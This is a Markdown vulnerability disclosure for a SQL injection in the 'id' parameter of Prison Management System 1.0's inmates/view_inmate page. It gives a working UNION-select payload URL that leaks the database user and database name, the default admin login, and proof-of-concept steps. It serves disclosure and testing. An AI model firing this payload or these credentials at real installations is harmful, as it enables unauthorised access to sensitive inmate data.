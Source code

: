# Prison Management System  - Inmates/view_inmate 'id' SQL inject(SQLI)


#### Exploit Title: Prison Management System  - Inmates/view_inmate 'id' SQL inject(SQLI)
#### Exploit Author: webraybtl@webray.com.cn inc
#### Vendor Homepage: https://www.sourcecodester.com/php/15368/prison-management-system-phpoop-free-source-code.html
#### Software Link:https://www.sourcecodester.com/download-code?nid=15368&title=Prison+Management+System+in+PHP%2FOOP+Free+Source+Code
#### Version: Prison Management System 1.0
#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description
The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection vulnerability.Prison Management System does not filter the content correctly at the "Inmates/view_inmate" id parameter, resulting in the generation of SQL injection.

#### Payload used:
http://localhost/pms/admin/?page=inmates/view_inmate&id=1%27%20and%201=2%20union%20select%201,user(),3,4,5,6,7,8,9,0,database(),2,3,4,5,6,7,8,9,0,1,2,3,4--+

#### Proof of Concept

1. Login the CMS. 
    Admin Default Access:
    username:admin
    Password: admin123

2. Open Page http://localhost/pms/admin/?page=inmatesand click View button

   ![image-20220606142934357](../img/Prison Management System(SQLI).assets/image-20220606142934357.png)

   ![image-20220606142955008](../img/Prison Management System(SQLI).assets/image-20220606142955008.png)

   

3. Put SQL payload   in the browser;


4. Viewing the dbuser and database name in page;

   ![image-20220606143008496](./img/Prison Management System(SQLI).assets/image-20220606143008496.png)

